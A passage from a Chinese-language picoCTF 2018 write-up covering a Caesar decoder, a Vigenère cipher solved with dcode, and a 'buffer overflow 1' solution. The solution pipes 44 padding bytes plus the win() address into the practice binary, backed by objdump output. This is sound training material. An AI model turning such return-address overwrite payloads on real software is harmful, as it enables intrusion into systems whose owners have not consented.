 ```cpp
} 
```

1. 自幹就過了(竟然還不用處理位移循環的問題 ._.)
```
: ./caeser_decoder 
table:  !"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqrstuvwxyz{|}~
cipher: e^Xd8I;pX6ZhVGT8^E]:gHT_jHITVG:cITh:XJg:r

...
...
...
picoCTF{XXXXXXXXXX}
```

---

## blaise's cipher (Cryptography)

> My buddy Blaise told me he learned about this cool cipher invented by a guy also named Blaise! Can you figure out what it says? Connect with nc 2018shell.picoctf.com 46966.

0. 根據wiki，「維吉尼亞密碼在19世紀時被誤傳為是法國外交官布萊斯·德·維吉尼亞（==Blaise== De Vigenère）所創造，因此現在被稱為「維吉尼亞密碼」。」

1. 簡單觀察cipher，可以猜出它是Vigenere密碼的wiki介紹
```
# cipher
...
Goqmexy Gexslm zwtej yz rkulix yse hwzkks nivmpr (iwpaznyg zmp Vkwyas–Atgksprk htpnjc it 1918), 

# wiki
Gilbert Vernam tried to repair the broken cipher (creating the Vernam–Vigenère cipher in 1918), 
```

2. 直接丟工具解
    * [dcode](https://www.dcode.fr/vigenere-cipher)
    * 先`TRY TO DECRYPT AUTOMATICALLY (STATISTICAL ANALYSIS)`得Key = FLAG，再解

---

## buffer overflow 1 (Binary Exploitation)

> Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this program? You can find it in /problems/buffer-overflow-1_3_af8f83fb19a7e2c98e28e325e4cacf78 on the shell server. [Source](https://2018shell.picoctf.com/static/304de0741561b9f80c664ea941922b03/vuln.c).

0. 嘗試patch長度

```b
: python -c "print 'a'*44 + 'abcdef'" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x64636261
Segmentation fault (core dumped)
```
1. 打開objdump，找到一個`<win>`function在`080485cb`
```b
080485cb <win>:
 80485cb:	55                   	push   ebp
 80485cc:	89 e5                	mov    ebp,esp
 80485ce:	83 ec 58             	sub    esp,0x58
```
2. 撰寫payload，得flag
```b
: python -c "print 'a'*44 + \xcb\x85\x04\x08'" | ./vuln

Please enter your string: 
```